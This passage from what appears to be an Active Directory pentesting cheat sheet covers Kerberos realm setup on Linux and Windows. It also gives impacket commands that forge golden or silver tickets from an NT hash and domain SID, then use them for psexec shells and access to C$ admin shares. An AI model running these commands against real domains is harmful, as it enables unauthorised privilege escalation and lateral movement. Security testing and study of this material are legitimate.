 Linux:

* `apt-get install krb5-user`
*   add into `/etc/krb5.conf` information about domain, e.g.:

    ```
    [realms]
        DOMAIN.COM = {
            kdc = tcp/DC01.DOMAIN.COM:88
        }
    ```

Windows:

* Setting up not domain Windows machine *realm* for proper Kerberos support:

    * `ksetup /setrealm DOMAIN.COM` - set realm for computer
        <br> Kerberos servers must be announced using `SRV` DNS record `_ldap._tcp.dc._msdcs.DOMAIN.COM` (optionally `SRV` record can be replaced by `TXT` record type)
    * `ksetup /setrealm DOMAIN.COM /addkdc DOMAIN.COM KDC-PC.DOMAIN.COM` - set realm for computer
        <br> Special DNS records not required.
    * `ksetup /DumpState`
    * `ksetup /RemoveRealm DOMAIN.COM`

    Usually almost everything works immediately, no reboot is required. `hosts` can be used instead of correct DNS server.

#### Using tools with Kerberos

* Almost all microsoft's builtin functionality supports Kerberos (IP addresses not permitted, only domain names).
* ***impacket*** supports Kerberos (`/etc/krb5.conf` configuration not required, proper DNS setup required):

    * Generate golden (or silver) ticket: `ticketer.py -nthash xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx -domain-sid S-1-5-21-3213090823-1594857386-3493564324 -domain DOMAIN.COM any_username`
    * `export KRB5CCNAME='any_username.ccache';` `./psexec.py -k -n DOMAIN.COM/any_username@PC01 cmd.exe`

* Linux *smbclient* tool:
    <br> `/etc/krb5.conf` configuration required.
    <br> `export KRB5CCNAME='tickets_store.ccache';` `smbclient -W DOMAIN.COM -k //PC.DOMAIN.COM/C$`









<br>

---

### LDAP vulnerabilities/tools

* [Active Directory: LDAP Syntax Filters](https://social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx) / (RU) [Active Directory: LDAP Syntax Filters (RU)](https://social.technet.microsoft.com/wiki/contents/articles/8077.active-directory-ldap-ru-ru.aspx)
*   [ADSI (Active Directory Service Interfaces) reference](https://msdn.microsoft.com/en-us/library/aa746512(v=vs.85).aspx)
